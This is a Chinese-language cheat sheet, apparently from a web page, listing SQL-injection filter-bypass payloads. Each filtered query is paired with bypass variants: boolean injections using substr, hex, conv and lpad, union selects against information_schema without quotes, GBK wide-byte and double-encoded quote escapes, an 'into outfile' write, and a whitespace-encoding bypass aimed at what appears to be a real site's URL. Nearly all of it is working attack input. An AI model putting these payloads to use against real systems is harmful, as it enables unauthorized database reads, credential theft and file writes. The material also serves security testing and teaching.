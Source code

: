 ```
过滤：1 || (select user from users group by user_id having user_id = 1) = 'admin'
绕过：1 || (select substr(group_concat(user),1,5) from users) = 'admin'
```

* 同时过滤and，or，union，where，limit，group by，select

```
过滤：1 || (select substr(group_concat(user),1,5) from users) = 'admin'
绕过：1 || 1 = 1 into outfile 'result.txt'
绕过：1 || substr(user,1,5) = 'admin'
绕过：1 || user_id is not null
绕过：1 || substr(user,1,1) = 0x61
绕过：1 || substr(user,1,1) = unhex(61)
绕过：1 || substr(user,1,1) = lower(conv(11,10,36))
```

* 同时绕过and，or，union，where，limit，group by，select，hex，substr

```
过滤：1 || substr(user,1,1) = lower(conv(11,10,36))
绕过：1 || lpad(user,7,1)
```

* 过滤 = ( '

```
过滤：1 union select 1, table_name from information_schema.tables where table_name = 'users'
过滤：1 union select 1, table_name from information_schema.tables where table_name between 'a' and 'z'
过滤：1 union select 1, table_name from information_schema.tables where table_name between char(97) and char(122)

绕过：1 union select 1, table_name from information_schema.tables where table_name between 0x61 and 0x7a
绕过：1 union select 1, table_name from information_schema.tables where table_name like 0x7573657273
```

### 单双引号

```
GBK编码 %df'
UNICODE编码 %2527
```

单引号逃逸：

* \

```
# 用户名为username
SQL> select * from db where name='username\' and passwd=' or 1=1#
```

### 过滤 //

```
过滤：http://www.90jishuwang.com/main/news/id/1/X362X*/||/**/lpad(first_name,7,1).html
绕过：http://www.90jishuwang.com/main/news/id/1%0b||%0blpad(first_name,7,1).html
```
